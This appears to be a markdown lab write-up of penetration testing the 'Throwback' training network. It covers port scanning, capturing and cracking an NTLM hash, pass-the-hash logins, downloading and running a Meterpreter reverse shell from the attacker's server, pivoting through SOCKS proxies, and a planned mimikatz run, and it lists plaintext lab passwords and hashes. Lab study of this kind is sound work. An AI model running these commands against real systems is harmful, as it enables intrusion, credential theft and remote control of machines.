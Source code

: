 # Throwback-Prod

```
22/tcp    open  ssh           syn-ack ttl 127 OpenSSH for_Windows_7.7 (protocol 2.0)
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
5357/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49675/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

Caught an NTLM hash for the user `PetersJ` using `responder`

cracked with hashcat

```bash
hashcat -m 5600 peters-hash /usr/share/wordlists/rockyou.txt -r OneRuleToRuleThemAll.rule --debug-mode=1 -
-debug-file=matched.rule
```

Password is `Throwback317`

able to log in now with
```bash
ssh PetersJ@throwback.local@10.200.70.219
```

Saved credentials

```
BlaireJ
```

```
7eQgx6YzxgG3vC45t5k9
```

# Elevation
```
runas /savecred /user:admin-petersj /profile "cmd.exe"
```

then set up meterpreter session as peterj-admin

autorouting

and socks proxy (4a)

Now log into `Throwback-WS01` as BlaireJ

```bash
proxychains ssh BlaireJ@Throwback.local@10.200.70.222
```

Then enter the password

```
7eQgx6YzxgG3vC45t5k9
```


# Setting up the proxy
```bash
evil-winrm -u admin-petersj -H 74fb0a2ee8a066b1e372475dcbc121c5 -i 10.200.70.219
```

establish meterpreter
```bash
python3 -m http.server 444
```

```powershell
wget http://10.50.71.63:444/rshell-4444.exe -o shell.exe
```

```bash
msfconsole -q -x "use multi/handler"
```

```msfconsole
set payload windows/x64/meterpreter/reverse_tcp
```

```msfconsole
set lhost tun0
```

```msfconsole
set lport 4444
```

```msfconsole
run
```

```powershell
./shell.exe
```

```msfconsole
run autoroute -s 10.200.70.0/24
```

```msfconsole
bg
```

```msfconsole
use auxiliary/server/socks_proxy
```

```msfconsole
run
```


# Setting up the next hop
```bash
proxychains evil-winrm -u MercerH -H 5edc955e8167199d1b7d0e656da0ceea -i 10.200.70.117
```

```powershell
wget http://10.50.71.63:444/rshell-4445.exe -o shell.exe
```

```bash
msfconsole -q -x "use multi/handler"
```

```msfconsole
set payload windows/x64/meterpreter/reverse_tcp
```

```msfconsole
set lhost tun0
```

```msfconsole
set lport 4445
```

```msfconsole
run
```

```powershell
./shell.exe
```

```msfconsole
bg
```

```msfconsole
use post/multi/manage/autoroute
```

```msfconsole
set session 1
```

```msfconsole
run
```

```msfconsole
use auxiliary/server/socks_proxy
```

```msfconsole
run
```


Current objective: 
run mimikatz on Throwback-DC01
to get `MercerH` password
	- Changed it to `Throwback2020`
	
	
# Pivoting with SSH tunnel
(example
attacker - kali
pwned jumpbox - debian
)

To setup a socks proxy from our kali machine on port 8080

```bash
sudo ssh -N -D localhost:8080 <user>@debian
```

Run stuff through the proxy
proxychains.conf

`socks4 localhost 8080`

```bash
proxychains <command>
```